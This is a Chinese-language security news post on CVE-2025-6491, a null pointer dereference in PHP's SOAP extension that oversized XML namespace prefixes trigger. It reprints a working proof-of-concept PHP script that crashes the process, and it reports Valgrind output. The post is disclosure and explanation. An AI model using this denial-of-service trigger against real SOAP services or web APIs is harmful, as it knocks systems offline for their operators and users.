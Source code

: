 #  PHP 漏洞 CVE-2025-6491（SOAP DoS）  
 TtTeam   2025-07-08 06:55  
  
**CVE-2025-6491：通过巨大的 XML 命名空间在 PHP SOAP 中取消引用空指针**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0HlywncJbB3YFpQO35SANASm3MzJK2ia5Gp5Q257iaFDzibEHrGXQSTBP5Z9hCCCzdux47jjkiavZcwoxB5ewVEDNA/640?wx_fmt=png&from=appmsg "")  
  
该漏洞由卡塔尔计算研究所的 Ahmed Lekssays 发现，当 PHP SOAP 扩展处理大于 2GB 的完全限定 XML 名称时，该漏洞会影响该扩展。  
  
公告中写道：“如果使用大于 2G 的完全限定名称创建 SoapVar 实例，这将导致空指针取消引用，从而引发分段错误。 ”  
  
该缺陷存在于 PHP 使用 libxml2 实现的 SOAP 机制中，该机制与过长的 XML 命名空间前缀交互。当前缀超过最大 int 值时，会导致 xmlNodeSetName() 静默失败，从而使 XML 节点处于无效状态。这会导致后续序列化过程中触发分段错误。  
  
使用 str_repeat(“A”, 0x7fffffff) 的简单 PHP 脚本会导致 SOAP 操作期间崩溃：  
  
```
<?php
ini_set('memory_limit', '6144M');
// 2 GB prefix to overflow int (INT_MAX = 2147483647)
$hugePrefix = str_repeat("A", 0x7fffffff);
// This is the local part of the XML name
$localName = "Element";
// This will be passed to xmlBuildQName(prefix: hugePrefix, ncname: localName)
$soapVar = new SoapVar(
    "value",
    XSD_STRING,
    null,
    null,
    "{$hugePrefix}:{$localName}" // Triggers xmlBuildQName
);
$options = [
    'location' => 'http://127.0.0.1/', // localhost dummy
    'uri' => 'urn:dummy',
    'trace' => 1,
    'exceptions' => true,
];
try {
    $client = new SoapClient(null, $options);
    $client->__soapCall("DummyFunction", [$soapVar]);
} catch (Exception $e) {
    echo "Caught Exception: " . $e->getMessage() . "\n";
}
?>
```  
  
  
执行时，PHP 进程因崩溃而终止：“ Valgrind 确认‘在地址 0x0 处的大小 1 的读取无效’。”  
  
这使得该漏洞特别容易受到拒绝服务 (DoS) 攻击，特别是在接受不受信任输入的 SOAP 公开 API 或 Web 服务中。  
  
